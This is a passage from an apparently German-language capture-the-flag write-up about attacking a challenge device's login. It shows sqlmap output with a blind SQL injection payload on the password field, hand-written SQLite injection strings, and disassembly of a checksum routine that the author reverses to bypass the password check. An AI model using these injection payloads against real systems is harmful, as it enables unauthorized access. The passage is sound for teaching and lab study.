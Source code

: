 ```

[18:56:28] [INFO] resuming back-end DBMS 'sqlite'
[18:56:28] [INFO] testing connection to the target URL
[18:56:28] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=JohnDoe&password=john123' AND 4851=4851 AND 'PpGx'='PpGx&checksum=3a9d0a
---
[18:56:28] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:56:28] [INFO] fetching tables for database: 'SQLite_masterdb'
[18:56:28] [INFO] fetching number of tables for database 'SQLite_masterdb'
[18:56:28] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[18:56:28] [INFO] retrieved:
[18:56:28] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[18:56:28] [WARNING] unable to retrieve the number of tables for database 'SQLite_masterdb'
[18:56:28] [ERROR] unable to retrieve the table names for any database
```

Von Hand:
Injection via: 

```
(SELECT hex('A') from notes)>0 -- f
```
funktioniert. Injection mit 

```
(SELECT hex(substr('A',1,1)) from notes)>0 -- f
```
schlägt fehl. Denke in meiner `sqlite3` Implementierung ist `substr` kaputt. Aber ist sogar gut, so kann man die Flag nicht direkt extracten. Falls es doch möglich ist, bitte melden!

Man ist also gezwungen den richtigen Usernamen anzugeben und dann mit der Injection den Passwortcheck zu überspringen. Aber dazu muss man die richtige Checksum kennen. Auf zum Reversen! Da die ELF nicht gestripped ist, sogar sehr schön.

```        
400d238b e5 81 ff        call8      getChecksum ; Berechne Checksum aus Username
[...]
400d23ba 0c 0b           movi.n     a11,0x0
400d23bc 81 61 f7        l32r       a8,->strtol                                      = 4005681c ; Parse Checksum als Hex aus Checksum-Parameter
[...]
400d23cd 77 16 39        beq        a6,a7,LAB_400d240a ; Prüfe ob Gleich

[...]
400d23d9 25 f8 48        call8      String::String
400d23dc b1 57 f7        l32r       a11,PTR_s_Invalid_checksum!_400d0138             = 3f4015a1 ; Wenn nicht gleich: Fehlermeldung "Invalid Checksum"
```
Wir müssen also rausfinden wie die `getChecksum` Methode funktioniert und aus dem Usernamen die Checksum berechnet. Die Methode ist sogar kurz genug um hier abgebildet zu werden:
```
                             **************************************************************
                             * getChecksum(char const*)                                   *
                             **************************************************************
                             undefined __stdcall getChecksum(char * param_1)
             undefined         a2:1           <RETURN>
             char *            a2:4           param_1
                             _Z11getChecksumPKc                              XREF[3]:     Entry Point(*), 
```